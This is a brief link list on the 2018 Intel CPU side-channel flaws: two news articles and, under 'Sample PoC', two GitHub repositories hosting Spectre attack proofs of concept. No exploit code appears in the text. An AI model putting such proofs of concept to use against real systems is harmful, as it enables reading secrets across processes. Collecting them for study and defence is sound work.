- https://www.theregister.com/security/2018/01/04/we-translated-intels-crap-attempt-to-spin-its-way-out-of-cpu-security-bug-pr-nightmare/922167
- https://www.theregister.com/security/2018/01/02/kernel-memory-leaking-intel-processor-design-flaw-forces-linux-windows-redesign/660079

**Sample PoC**
- https://github.com/Eugnis/spectre-attack/tree/master
- https://github.com/egoktas/spectre-v2-cross-process
